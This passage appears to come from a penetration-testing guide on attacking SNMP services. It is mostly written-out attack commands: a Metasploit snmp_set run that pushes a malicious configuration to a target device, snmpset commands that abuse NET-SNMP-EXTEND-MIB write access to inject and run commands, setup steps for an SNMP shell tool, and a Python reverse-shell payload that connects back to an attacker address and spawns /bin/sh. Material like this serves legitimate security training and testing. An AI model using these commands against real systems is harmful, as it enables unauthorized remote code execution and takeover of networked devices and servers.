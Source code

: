     ```bash
    use auxiliary/admin/snmp/snmp_set
    set RHOSTS <target_ip>
    set COMMUNITY private
    set OID 1.3.6.1.4.1.9.9.96.1.1.1.1.14.1.1
    set VALUE "malicious_config"
    run
    ```
* **Description:** Injects malicious configurations into SNMP-enabled devices, potentially leading to further exploitation or persistent access.

#### Remote Code Execution

SNMP is sometimes overseen by the administrator of the device or server where it is left in a default configuration. SNMP community with write permissions (`rwcommunity`) on the Linux operating system can be abused to let the attacker execute a command on the server.

*   **Extending Services:** While you are not able to modify existing entries that were configured in `snmpd.conf`, it is possible to add additional commands over SNMP, because the `MAX-ACCESS` permission setting in the MIB definition is set to `read-create`. Adding a new command basically works by appending an additional row to the `nsExtendObjects` table.

    ```bash
    snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c c0nfig localhost \
    'nsExtendStatus."evilcommand"' = createAndGo \
    'nsExtendCommand."evilcommand"' = /bin/echo \
    'nsExtendArgs."evilcommand"' = 'hello world'
    ```

    Injecting a command to run on the SNMP service. `NET-SNMP-EXTEND-MIB` requires that you always provide the absolute path to the executable. The called binary/script must also exist and be executable.
*   **Execute The Injected Command:** Execute the command that we injected to the SNMP by enumerating it using snmpwalk.

    ```bash
    snmpwalk -v2c -c SuP3RPrivCom90 10.129.2.26 NET-SNMP-EXTEND-MIB::nsExtendObjects
    ```
*   **Gain a Shell from Net-SNMP Extend:** In this section, I would like to discuss how to gain a server shell to control the server. You can use python script developed by mxrch that can be downloaded from [Github - SNMP-Shell](https://github.com/mxrch/snmp-shell.git). To install the pre-requisites to run:

    ```bash
    sudo apt install snmp snmp-mibs-downloader rlwrap -y
    git clone https://github.com/mxrch/snmp-shell
    cd snmp-shell
    sudo python3 -m pip install -r requirements.txt
    ```
*   **Creating Reverse Shell:** You can also create reverse shell manually by injecting the command below into the SNMP.

    ```bash
    snmpset -m +NET-SNMP-EXTEND-MIB -v <snmp_version> -c <community_string> <target_ip> 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"<attack_ip>\",<attack_port>));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
    ```
